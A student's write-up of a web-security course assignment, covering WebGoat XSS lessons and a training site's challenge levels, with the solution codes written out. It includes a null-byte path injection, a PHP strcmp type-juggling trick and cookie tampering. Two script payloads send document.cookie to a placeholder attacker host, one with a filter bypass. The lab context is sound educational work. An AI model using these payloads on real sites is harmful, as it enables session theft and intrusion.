 # Assignment 4

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Cross-Site Scripting (XSS) - Stored XSS attacks

		* ![StoredXSS1](img/stored_xss_1.PNG)
		* ![StoredXSS2](img/stored_xss_2.PNG)

	* Cross-Site Scripting (XSS) - Reflected XSS attacks

		* ![ReflectedXSS](img/reflected_xss.PNG)	

* Do the following four exercises on http://websecurity.cs.ru.nl/
	
	* Level 3

		* http://websecurity.cs.ru.nl/?level=3&nieuws=admin/index.php
		* Solution: YTgwZWM1NDg2

	* Level 4
		* http://websecurity.cs.ru.nl/?level=4&nieuws=admin/index.php%00
		* The appended string "%00" represents the nullbyte (\0) and forces php to ignore every appended string behind it
		* See also: http://stackoverflow.com/questions/12731547/can-an-appended-file-suffix-to-a-parameter-for-file-get-contents-be-bypassed
		* Solution: ZjQ5ZmVlOTZm

	* Level 5

		* Use your own host and the cookie stealer script provided on the websec website.
		* In the searchterm field enter: ``` <script>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</script>```
		* Click on the search button and use Webscarab to get the resulting url to the search term.
		* Go to the contact site and enter the before mentioned url you created with your malicious code.
		* Solution: NzM2MGUzMWJh

	* Level 6
		
		* Nearly the same approach as Level 5 but this time greater than and less than symbols are getting filtered. There is no recursive filtering though.
		* We can therefore use a snippet like this for the searchterm: ``` <scr<script>ipt>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</scr</script>ipt> ```
		* See also: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)#Example_5:_Bypassing_non-recursive_filtering
		* Solution: NDY3YjMwZjRl

	* Level 7

		* There is a bug in the strcmp funtion which cannot handle arrays as input and therefore returns 0 which gives you the solution. Inspect the html source and change the name of the input field "pass" to "pass[]".
		* See also: https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf
		* Solution: YjU1NWY4MzBi

	* Level 8
	
		* No idea so far. Seems like i have to change the referer.

	* Level 9
	
		* Do a post request with some testdata for the input fields. Take a look at this post request in WebScarab and change the cookie value "LoggedIn=false" to "LoggedIn=true".
		* WEnn you fire the manual request in WebScarab, you should be able to see the password.
		* Solution: OGRkNDRmMDU3	



		






	
